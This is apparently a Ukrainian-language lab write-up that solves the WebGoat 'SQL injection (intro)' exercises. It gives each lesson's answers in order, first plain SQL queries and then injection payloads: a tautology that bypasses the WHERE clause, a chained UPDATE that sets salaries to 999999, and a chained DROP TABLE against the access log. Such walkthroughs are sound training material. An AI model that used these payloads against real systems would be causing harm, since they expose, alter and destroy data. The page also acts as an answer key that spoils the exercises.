








# SQLI(intro)

Обираємо відповідне завдання з меню WebGoat.

## Проходження завдання



### What is SQL?


Запит для розв'язання завдання:

```
SELECT department FROM employees WHERE first_name = 'Bob' AND last_name = 'Franco';
```

### Data Manipulation Language (DML)



Запит для розв'язання завдання:

```
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
```

### Data Definition Language (DDL)



Запит для розв'язання завдання:

```
ALTER TABLE employees ADD phone varchar(20);
```

### Data Control Language (DCL)


Запит для розв'язання завдання:

```
GRANT ALL ON grant_rights TO unauthorized_user;
```

### What is SQL injection?



### Consequences of SQL injection



### Severity of SQL injection



### Try It! String SQL injection


Запит для розв'язання завдання:

```
Smith'
```

```
or
```

```
'1'='1
```

### Try It! Numeric SQL injection



Запит для розв'язання завдання:

```
1
```

```
1 OR '1'='1'
```

### Compromising confidentiality with String SQL injection


Запит для розв'язання завдання:

```
Smith' OR '1'='1' --
```

### Compromising Integrity with Query chaining


Запит для розв'язання завдання:

```
Smith'; UPDATE employees SET salary = '999999' WHERE last_name = 'Smith' --
```

### Compromising Availability



```
Smith'; DROP TABLE access_log --
```

Завдання виконано успішно.


